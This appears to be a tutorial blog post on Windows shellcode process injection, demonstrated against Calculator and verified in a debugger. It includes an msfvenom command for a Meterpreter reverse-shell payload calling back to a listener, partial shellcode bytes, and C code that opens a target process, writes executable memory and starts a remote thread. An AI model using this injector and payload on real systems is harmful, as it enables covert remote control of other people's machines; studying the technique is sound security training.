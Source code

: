 # Shellcode Injection
## Introduction
Finally, we'll be diving into some actual process injection. More specifically, **shellcode** injection. This is generally seen as the most simple form of process injection. 

## Shellcode
First let's briefly make ourselves familiar with what shellcode is. In this context, shellcode is essentially a string raw unencoded bytes that make up machine instructions. We directly place these bytes into the memory of a process such that it can execute them.  Shellcode is extremely target-specific, as the CPU directly performs the instructions. Writing shellcode by hand is not an option, instead we'll be using `msfvenom` to generate it for us.

Let's see what some shellcode might look like. We generate it by using:

```bash
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 -f c --var-name=our_shellcode
```

Which gives us something like this:
```C
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
[...]
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f";
```

Cool, let's start crafting some source code that performs Process Injection.

>I won't explain every detail of every line of code since that would make this post way too long. For information on how the WIN32 API works and what the different arguments mean, refer to the sources I mentioned in the post about the API.
   
## Getting a handle
Using the WIN32 API we'll start by getting a so-called handle to the target process. This handle is what will identify the process to the API from here on out. To get this handle, we'll need to supply the **Process Identifier (PID)**, which we can find in a task manager and input as an argument.

```C
DWORD dwPID = NULL;
HANDLE hProcess = NULL, hThread = NULL;

if (argc < 2) {
	printf("%s usage: %s <PID>", e, argv[0]);
	return EXIT_FAILURE;
}

dwPID = atoi(argv[1]);
printf("%s trying to get a handle to the process (%ld)\n", i, dwPID);

hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
if (hProcess == NULL) {
	return EXIT_FAILURE;
}

```

Notice that we're giving `OpenProcess()` our `dwPID` as an argument, so that we get a handle to the desired process.

## Allocating memory space in the target process
Now that we have a handle to the target process, we can allocate some new memory inside of it. In order to do that we'll need to know how large this space must be. So at this point we'll need our shellcode ready.

```C
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
[...]
"\xf0\xb5\xa2\x56\xff\xd5";

size_t payloadSize = sizeof(payload);

rBuffer = VirtualAllocEx(
	hProcess,
	NULL,
	payloadSize,
	(MEM_COMMIT | MEM_RESERVE),
	PAGE_EXECUTE_READWRITE
);
```

The `VirtualAllocEx()` function returns the address of the allocated memory, which we call `rBuffer`. This is the address that we'll write our shellcode to. 

## Injecting the shellcode
Here's the important part: Actually writing the shellcode to the newly created memory buffer in the target process' memory. 

```C
WriteProcessMemory(
	hProcess,
	rBuffer,
	payload,
	payloadSize,
	NULL
);
```

We supply the handle to the process, the address of our newly created buffer, the payload and the size of the payload. 

Let's see our work until now in action! As an example I'll use open up the Windows Calculator and use it as our target process, since there won't be any problem if anything goes wrong.

![Screenshot 2025-03-05 203252](https://github.com/user-attachments/assets/bdf0bf1d-f3d4-4efc-9fe6-bcea934090ac)

We supply our program with the right PID and execute.

![Screenshot 2025-03-05 203827](https://github.com/user-attachments/assets/ef3f15fc-57f9-4089-aa2d-44c5851764a8)

Immediately we see that we successfully created and wrote to a new memory region in the calculator's process memory. 

![Screenshot 2025-03-05 203912](https://github.com/user-attachments/assets/0eb27a79-cccf-444f-a2f9-cfd1454a0d2f)

The address of that buffer is `0x292c9950000`. Let's open up `x64dbg`, attach it to our calculator process and inspect the memory at this address.

![Screenshot 2025-03-05 204024](https://github.com/user-attachments/assets/88bcf491-e17d-4b3e-89b4-e2e75c4aa7c0)

The shellcode I created starts with `FC 48 83 E4 F0 ...`. And indeed, we find those exact bytes at that specific address in the calculators process memory. We've successfully altered another process' memory!

## Executing the injected shellcode
Now there's only one step left: actually having the process execute the injected code. To do this, we'll create a new thread for that process and point its instruction pointer to our buffer's address. That's really all there is to it.

```C
hThread = CreateRemoteThreadEx(
	hProcess,
	NULL,
	0,
	(LPTHREAD_START_ROUTINE)rBuffer,
	NULL,
	0,
	0,
	&dwTID
);
```

We provide the process handle and the `rBuffer` address and the API returns a handle to the thread. The only other thing worth noting is the cast of `rBuffer` to `LPTHREAD_START_ROUTINE`. This is just how the API function wants to receive `rBuffer` and except for some data alignment stuff, nothing changes.

To make sure we actually see the execution of this shellcode happen, we'll use the following line of code:

```C
WaitForSingleObject(hThread, INFINITE);
```

Quite simply put, the first line waits until the execution of this thread has completed and it waits for an infinite amount of time. 
